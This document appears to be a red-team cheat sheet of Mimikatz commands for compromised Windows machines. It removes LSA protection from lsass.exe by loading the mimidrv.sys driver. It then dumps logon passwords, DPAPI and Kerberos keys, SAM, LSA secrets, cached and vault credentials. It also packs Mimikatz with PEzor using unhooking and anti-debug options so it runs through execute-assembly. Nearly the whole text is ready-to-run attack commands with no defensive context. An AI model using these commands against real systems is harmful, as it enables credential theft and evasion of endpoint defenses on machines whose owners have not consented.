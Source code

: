 # Mimikatz

## Disable LSA Protection

### 1) We need to upload the mimidrv.sys from where mimikatz would execute from

    upload /home/kali/tools/bins/csharp-files/mimidrv.sys c:/windows/temp/mimidrv.sys

### 2) Go to the directory

    cd c:/windows/temp/
    ls

### 3) Load the mimidrv driver and remove protection from LSASS

    mimikatz '"privilege::debug" "token::elevate" "!+" "!processprotect /process:lsass.exe /remove"'

## Machine Credentials

### 1) LSASS Dump

    mimikatz "token::elevate" "sekurlsa::logonpasswords" "exit"
    mimikatz "token::elevate" "sekurlsa::dpapi" "exit"
    mimikatz "token::elevate" "sekurlsa::ekeys" "exit"
    mimikatz "token::elevate" "sekurlsa::wdigest" "exit"


### 2) SAM/Secrets/Cache dump

    mimikatz "token::elevate" "lsadump::sam" "exit"
    mimikatz "token::elevate" "lsadump::secrets" "exit"
    mimikatz "token::elevate" "lsadump::cache" "exit"


### 3) Vault dump

    mimikatz '"token::elevate" "vault::list" "exit"'
    mimikatz '"token::elevate" "vault::cred /patch" "exit"'

## PEZor - Mimikatz

For converting the mimikatz binary into a C# binary with preloaded arguments and to run with execute-assembly

### 1) Mimikatz

    mimikatz "privilege::debug" "exit"
    PEzor -unhook -antidebug -fluctuate=NA -format=dotnet -sleep=5 /home/kali/tools/bins/exes/mimikatz.exe -z 2 -p '"privilege::debug" "exit"'
    execute-assembly /home/kali/tools/bins/exes/mimikatz.exe.packed.dotnet.exe

### 2) We need to upload the mimidrv.sys from where mimikatz would execute from

    upload /home/kali/tools/bins/csharp-files/mimidrv.sys c:/windows/temp/mimidrv.sys

### 3) Go to the directory

    cd c:/windows/temp/
    ls

### 4) Now use PEzor to convert mimikatz into a C# executable with arguments to unload LSA protection by loading mimidrv.sys driver

    mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"

### 5) Looks like this - Rinse and repeat for other mimikatz commands

    PEzor -unhook -antidebug -fluctuate=NA -format=dotnet -sleep=5 /home/kali/tools/bins/exes/mimikatz.exe -z 2 -p '"privilege::debug" "token::elevate" "!+" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords" "exit"'
    execute-assembly /home/kali/tools/bins/exes/mimikatz.exe.packed.dotnet.exe
